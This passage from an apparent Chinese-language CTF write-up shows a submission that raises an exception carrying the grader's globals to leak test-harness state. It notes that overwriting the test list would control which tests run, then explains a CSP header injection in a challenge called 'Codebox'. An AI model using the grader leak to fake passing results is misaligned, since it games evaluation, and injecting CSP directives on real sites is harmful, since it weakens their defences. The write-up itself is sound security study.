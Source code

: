 ```python
    'tests': [
        'test_hidden', 
        'test_magic_a', 
        'test_magic_b', 
        'test_magic_c', 
        'test_preimage_a', 
        'test_preimage_b', 
        'test_factor_bigger', 
        'test_factor_large', 
        'test_factor_small', 
        'test_favorite', 
        'test_common_consecutive', 
        'test_common_empty', 
        'test_common_many', 
        'test_common_nonconsecutive', 
        'test_common_single', 
        'test_longest_empty', 
        'test_longest_multiple', 
        'test_longest_multiple_tie', 
        'test_longest_single', 
        'test_add_mixed', 
        'test_add_negative', 
        'test_add_positive'
    ], 
    'stack': [], 
    'current': <unittest.suite.TestSuite tests=[
        None, 
        None, 
        <test_1_add.TestAdd testMethod=test_add_positive>
    ]>, 
    'test': <test_1_add.TestAdd testMethod=test_add_positive>, 
    'submission': 'import __main__\r\n\r\ndef add(a, b):\r\n    raise BaseException(vars(__main__))', 
    'f': <_io.TextIOWrapper name='/dev/null' mode='w' encoding='utf-8'>, 
    'stdout': <_io.TextIOWrapper name='<stdout>' mode='w' encoding='utf-8'>, 
    'stderr': <_io.TextIOWrapper name='<stderr>' mode='w' encoding='utf-8'>
}
```

`tests`数组的内容跟 web 显示的测试用例相同，如果能够覆盖的活就可以实现控制测试用例了:

![](https://imgur.com/LvGpMTD.png)

![](https://imgur.com/Rq6ZzGW.png)

### Codebox:

这题后端从 req.query.code 提取 img 标签，并且将它们的 src 添加到 CSP header 里，这里可以注入分号，也就是追加任意的 CSP 

```javascript
    const csp = [
        "default-src 'none'",
        "style-src 'unsafe-inline'",
        "script-src 'unsafe-inline'",
    ];

    if (images.length) {
        csp.push(`img-src ${images.join(' ')}`);
    }

    res.header('Content-Security-Policy', csp.join('; '));
```

